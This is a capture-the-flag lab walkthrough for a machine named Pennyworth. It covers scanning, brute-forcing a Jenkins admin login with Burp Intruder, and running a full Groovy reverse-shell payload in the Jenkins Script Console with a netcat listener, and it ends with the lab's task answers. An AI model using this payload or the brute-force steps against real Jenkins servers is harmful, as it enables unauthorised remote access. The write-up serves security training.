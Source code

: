 # Pennyworth      

![Pennyworth](./Screenshots/pennylogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

![nmap](./Screenshots/pennynmap.png)

Only `http` service is running. Port `8080/tcp`.

After pasting `http://{target ip}:8080/` into the browser we can see website.

![web](./Screenshots/pennyweb.png)

### Burpsuite

Before trying `SQL Injection` or some other attacks, let's try to brute force credentials first.

Intercept the request.

![Burpsuite](./Screenshots/pennyburp.png)

![Burpsuite](./Screenshots/pennyburp2.png)

Send it to `Intruder` using `Ctrl + I` combination.

Mark `test` after password and click `Add §` icon.

To save your time, let's start enumerating with `root` as `username`.

![Burpsuite](./Screenshots/pennyburp3.png)

Go to `Payloads` section and in `Payload settings` load payload which you want to use.

![Burpsuite](./Screenshots/pennyburp4.png)

If all of the above is done press `Start attack`.

![Burpsuite](./Screenshots/pennyburp5.png)

We can see that the password is `password`.

So our credentials are:

```
root:password
```

Try to log in.

![login](./Screenshots/pennylogin.png)

We are in `Administrator` pannel.

![login](./Screenshots/pennylogin2.png)

In `Manage Jenkins` section there is `Script Console`.

![login](./Screenshots/pennylogin3.png)

`Jenkins Script Console` is a powerful feature in `Jenkins`, which is a popular open-source automation server used for continuous integration and continuous delivery (CI/CD). The `Script Console` allows administrators to execute `Groovy` scripts directly within the `Jenkins` environment. This feature provides a way to automate and manage `Jenkins` instances programmatically. Using the `Script Console`, administrators can perform complex automation tasks and administrative actions by leveraging `Groovy`, a scripting language that is similar to Java but more concise and flexible. The scripts have direct access to the Jenkins API, allowing interaction with all aspects of the `Jenkins` server, such as job configurations, build triggers, and system settings. Commands entered into the `Script Console` are executed in real-time, making it a powerful tool for immediate changes and troubleshooting.

Given our access to this, we can try to execute a command that will give us a `reverse shell` back to our local machine.

### Reverse Shell and Netcat 

A `reverse shell` is a method used by attackers to gain remote access to a target machine. In this setup, the target machine initiates a connection back to the attacker's machine, which is listening for incoming connections. This allows the attacker to execute commands on the target machine remotely. `Reverse shells` are often used to bypass firewalls and security measures, as many networks allow outgoing connections, making it easier for the attacker to establish a connection without being blocked. This technique is commonly employed in hacking and penetration testing to control compromised systems.

To create `reverse shell` I almost always use this site: https://www.revshells.com/

To do this, we need `ip address` of our `tun0` interface as we are connected through VPN.

Type:

```
ip a | grep tun0
```

![revshell](./Screenshots/pennync.png)

If you have it, paste the `ip address` in the `ip` box and the port number you have selected in the `Port` box.

![revshell](./Screenshots/pennync2.png)

Remember to select `Groovy`.

It should look like this:

```
String host="{your tun0 ip}";int port={port of your choice};String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Payload is ready.

Now it's time to start our `netcat` listener.

Type:

```
nc -lvnp {port you have chosen}
```

and press `Enter`

`-l` - Tells netcat to listen for an incoming connection rather than initiating an outbound connection.

`-v` - Enables verbose mode, which provides detailed output about the connection process, making it easier to debug.

`-n` - Prevents DNS lookup, allowing netcat to use numeric IP addresses and port numbers directly, which speeds up the connection process.

`-p` - Specifies the port number on which netcat should listen for incoming connections.

Finally, we can execute our reverse shell command.

![revshell](./Screenshots/pennync3.png)

Paste it into `Script Console` and press `Run`.

Now we can go back to our `netcat` listener. We should successfully connect.

![revshell](./Screenshots/pennync4.png)

### Get the flag

Flag must be somewhere there.

![flag](./Screenshots/pennyflag.png)

### Paste the flag

![pwned](./Screenshots/pennypwned.png)

## Answers

### Task-1: What does the acronym CVE stand for?

Common Vulnerabilities and Exposures

### Task-2: What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

confidentiality, integrity, availability

### Task-3: What is the version of the service running on port 8080?

Jetty 9.4.39.v20210325

### Task-4: What version of Jenkins is running on the target?

2.289.1

### Task-5: What type of script is accepted as input on the Jenkins Script Console?

Groovy

### Task-6: What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

cmd.exe

### Task-7: What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

ifconfig

### Task-8: What switch should we use with netcat for it to use UDP transport mode?

-u

### Task-9: What is the term used to describe making a target host initiate a connection back to the attacker host?

reverse shell

### Submit root flag

GG.